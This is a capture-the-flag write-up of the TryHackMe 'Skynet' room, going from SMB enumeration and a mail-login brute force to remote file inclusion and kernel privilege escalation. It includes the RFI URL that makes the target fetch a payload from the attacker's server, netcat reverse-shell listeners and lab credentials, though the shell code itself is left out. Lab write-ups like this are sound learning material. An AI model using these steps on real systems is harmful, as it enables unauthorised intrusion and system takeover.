# [Skeynet](https://tryhackme.com/room/skynet)
**Summary:**

The attack follows a classic enumeration → credential harvesting → web exploitation → privilege escalation path.

Initial reconnaissance reveals multiple exposed services, with SMB and a webmail interface standing out. Anonymous SMB access leaks internal data, which indirectly provides material useful for credential attacks. These credentials are then reused to gain access to a mail system, where further sensitive information is exposed through user communications.

This information enables deeper access into internal resources, uncovering hidden web directories and administrative functionality. A vulnerable web component is identified and exploited via remote file inclusion, allowing remote code execution and a foothold on the system.

After gaining a shell, the attacker stabilizes access and performs local enumeration. A kernel vulnerability is discovered and exploited to escalate privileges, ultimately achieving full system compromise.

# Enumeration
Nmap scan 
```bash
sudo nmap -p- -Pn -T4 -A 10.130.161.31
```
**Nmap result**
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL SASL AUTH-RESP-CODE PIPELINING RESP-CODES CAPA TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: OK LITERAL+ have IMAP4rev1 ID listed post-login ENABLE SASL-IR capabilities IDLE LOGINDISABLEDA0001 Pre-login more LOGIN-REFERRALS
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m58s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2026-04-16T05:48:03-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-04-16T10:48:03
|_  start_date: N/A

TRACEROUTE (using port 554/tcp)
HOP RTT     ADDRESS
1   0.91 ms 10.130.161.31
```

**Enumerating netbios-ssn** to gather information for users and share.
```
 ===================================================== 
|    Enumerating Workgroup/Domain on 10.130.161.31    |
 ===================================================== 
[+] Got domain/workgroup name: WORKGROUP

 ============================================= 
|    Nbtstat Information for 10.130.161.31    |
 ============================================= 
Looking up status of 10.130.161.31
	SKYNET          <00> -         B <ACTIVE>  Workstation Service
	SKYNET          <03> -         B <ACTIVE>  Messenger Service
	SKYNET          <20> -         B <ACTIVE>  File Server Service
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
	WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
	WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

	MAC Address = 00-00-00-00-00-00

 ====================================== 
|    Session Check on 10.130.161.31    |
 ====================================== 
[+] Server 10.130.161.31 allows sessions using username '', password ''

 ============================================ 
|    Getting domain SID for 10.130.161.31    |
 ============================================ 
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ======================================= 
|    OS information on 10.130.161.31    |
 ======================================= 
Use of uninitialized value $os_info in concatenation (.) or string at /root/Desktop/Tools/Miscellaneous/enum4linux.pl line 464.
[+] Got OS info for 10.130.161.31 from smbclient: 
[+] Got OS info for 10.130.161.31 from srvinfo:
	SKYNET         Wk Sv PrQ Unx NT SNT skynet server (Samba, Ubuntu)
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03

 ============================== 
|    Users on 10.130.161.31    |
 ============================== 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: milesdyson	Name: 	Desc: 

user:[milesdyson] rid:[0x3e8]

 ========================================== 
|    Share Enumeration on 10.130.161.31    |
 ========================================== 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.130.161.31
//10.130.161.31/print$	Mapping: DENIED, Listing: N/A
//10.130.161.31/anonymous	Mapping: OK, Listing: OK
//10.130.161.31/milesdyson	Mapping: DENIED, Listing: N/A
//10.130.161.31/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
```
From enumeration we can see user anonymous can read only we can investigate it.
```bash
smbclient //10.130.161.31/anonymous
```

**We found this message** and Log directory



And found this in `log1.txt`



Seems like password dictionary. we can use it to brute force later 

**Enumerating http server directories**
```bash
gobuster dir -u "http://10.130.161.31/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
**result**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 314] [--> http://10.130.161.31/admin/]
/css                  (Status: 301) [Size: 312] [--> http://10.130.161.31/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.130.161.31/js/]
/config               (Status: 301) [Size: 315] [--> http://10.130.161.31/config/]
/ai                   (Status: 301) [Size: 311] [--> http://10.130.161.31/ai/]
/squirrelmail         (Status: 301) [Size: 321] [--> http://10.130.161.31/squirrelmail/]
/server-status        (Status: 403) [Size: 278]
Progress: 218275 / 218276 (100.00%)
```

We found `/squirrelmail` it running squirrelMail service with version **1.4.23**



# Initial Access
Using user name from SMB enumeration `milesdyson` and password list we found above `log1.txt` we will brute force this login page via burpsuite intruder .
**Result**



we found this valid password => `cyborg007haloterminator` to login .



***PANG*** we have access .
## Investing emails
First email have this binary code



after decode it with [cyberchef](https://gchq.github.io/CyberChef/) i found this text.



Another email



I think both emails are related somehow .
Last email.



now we have password `)s{A&2Z=F^n_E.B` & weird text .

# Enumeration again
login to milesdyson share 
```bash
smbclient //10.130.161.31/milesdyson -U milesdyson%')s{A&2Z=F^n_E.B`'
```

we found `important.txt` inside `/notes` directory



**File content**



gobuster `/45kra24zxs28v3yd` directory
```bash
gobuster dir -u "10.130.161.31/45kra24zxs28v3yd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
we found 
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [Size: 339] [--> http://10.130.161.31/45kra24zxs28v3yd/administrator/]
Progress: 218275 / 218276 (100.00%)
===============================================================
```

Sure we will investigate it .



we found this page.

**Gobustering** it again we found
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/templates            (Status: 301) [Size: 349] [--> http://10.130.161.31/45kra24zxs28v3yd/administrator/templates/]
/media                (Status: 301) [Size: 345] [--> http://10.130.161.31/45kra24zxs28v3yd/administrator/media/]
/alerts               (Status: 301) [Size: 346] [--> http://10.130.161.31/45kra24zxs28v3yd/administrator/alerts/]
/js                   (Status: 301) [Size: 342] [--> http://10.130.161.31/45kra24zxs28v3yd/administrator/js/]
/components           (Status: 301) [Size: 350] [--> http://10.130.161.31/45kra24zxs28v3yd/administrator/components/]
/classes              (Status: 301) [Size: 347] [--> http://10.130.161.31/45kra24zxs28v3yd/administrator/classes/]
Progress: 218275 / 218276 (100.00%)
```

**Searching exploit** 
lead us to [EDB-ID:25971](https://www.exploit-db.com/exploits/25971) and this is remote file inclusion vulnerability let's exploit it .

# Weaponization
**Create PHP reverse shell**
```
i can not past it here 
```
then save it into file `shell.php`.

**establish local webserver**
```bash
python3 -m http.server 9999
```

**establish listener**
```
attacker$ nc -lnvp 4444
```
# Exploit 
inject URL with payload
```
http://10.130.161.31/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.130.127.22:9999/pen.php
```



Now we have shell.



# Flag1
user flag



# Pivot
We will switch to more stable shell we will create python shell and run it on target machine
```python
python -c 'importsub[I can not past shell here]2(s.fileno(),2);import pty; pty.spawn("sh")'
```
then catch it with our attacking machine again but on port `9988`
`nc -lnvp 9988`

# Privilege escalation
## Enumeration
I found vulnerable kernel version `4.8.0-58-generic` can lead us to privilege escalation. install it on target machine then compile it 
```
$gcc exp.c -o kill
$./kill
```



# root flag

